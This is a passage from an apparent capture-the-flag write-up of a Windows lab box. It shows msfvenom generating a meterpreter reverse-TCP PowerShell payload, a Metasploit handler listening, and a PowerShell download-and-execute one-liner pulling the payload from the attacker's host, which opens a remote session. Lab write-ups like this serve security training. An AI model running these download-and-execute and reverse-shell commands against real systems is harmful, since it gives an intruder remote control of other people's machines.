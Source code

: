 Metasploit has a very nice, built in, exploit suggester. I’ll need a
meterpreter shell. First, generate some PowerShell as a loader:

    
    
    root@kali# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=445 -f psh -o www/met-445.ps1
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 510 bytes
    Final size of psh file: 3216 bytes
    Saved as: www/met-445.ps1
    

The `-f psh` will output a PowerShell command that will initiate a reverse tcp
meterpreter shell.

Start `exploit/multi/handler`:

    
    
    msf exploit(multi/handler) > options
    
    Module options (exploit/multi/handler):
    
       Name  Current Setting  Required  Description
       ----  ---------------  --------  -----------
    
    
    Payload options (windows/x64/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     10.10.14.5       yes       The listen address (an interface may be specified)
       LPORT     445              yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Wildcard Target
    
    
    msf exploit(multi/handler) > run
    
    [*] Started reverse TCP handler on 10.10.14.5:445
    

Now get and run PowerShell launcher from my Nishang shell:

    
    
    PS C:\> iex(new-object net.webclient).downloadstring('http://10.10.14.5/met-445.ps1')
    1748
    

And get meterpreter:

    
    
    [*] Sending stage (206403 bytes) to 10.10.10.93
    [*] Meterpreter session 1 opened (10.10.14.5:445 -> 10.10.10.93:49198) at 2018-10-26 15:51:15 -0400
    